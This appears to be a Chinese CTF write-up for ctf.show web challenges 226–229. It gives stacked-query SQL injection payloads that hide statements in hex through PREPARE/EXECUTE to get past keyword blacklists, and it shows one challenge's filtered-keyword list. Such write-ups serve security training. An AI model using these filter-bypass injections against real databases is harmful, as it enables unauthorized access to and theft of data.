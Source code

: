 过滤了`show`  和 括号，那就不能使用 concat 连接了。

使用十六进制编码

paylaod:

```
username=1';PREPARE name from 0x73686F77207461626C6573;EXECUTE name;
username=1';PREPARE name from 0x73656C656374202A2066726F6D2063746673685F6F775F666C61676173;EXECUTE name;
```

## web227~存储过程

存储过程。

参考：

```
https://www.runoob.com/w3cnote/mysql-stored-procedure.html
https://blog.csdn.net/qq_41573234/article/details/80411079
```



```
http://da1dd134-9aac-46e1-942d-17dff2dd1c33.chall.ctf.show/api/?username=1%27;PREPARE name from 0x2053454C4543542020202A20202046524F4D202020696E666F726D6174696F6E5F736368656D612E526F7574696E657320776865726520524F5554494E455F4E414D45203D27676574466C616727;EXECUTE name;
```

## web228

还是可以转十六进制。

过滤内容：

```
{"code":0,"msg":"\u67e5\u8be2\u6210\u529f","count":1,"data":[{"id":"1","char":"union"},{"id":"2","char":"file"},{"id":"3","char":"into"},{"id":"4","char":"handler"},{"id":"5","char":"db"},{"id":"6","char":"select"},{"id":"7","char":"update"},{"id":"8","char":"dump"},{"id":"9","char":"delete"},{"id":"10","char":"create"},{"id":"11","char":"drop"},{"id":"12","char":"show"},{"id":"13","char":"describe"},{"id":"14","char":"set"},{"id":"15","char":"alter"}]}
```

payload:

```
?username=1';PREPARE name from 0x73656C656374202A2066726F6D2063746673685F6F775F666C616761736161;EXECUTE name;
```

## web229

十六进制。

payload:

```
?username=1';PREPARE name from 0x73656C656374202A2066726F6D20666C6167;EXECUTE name;
```
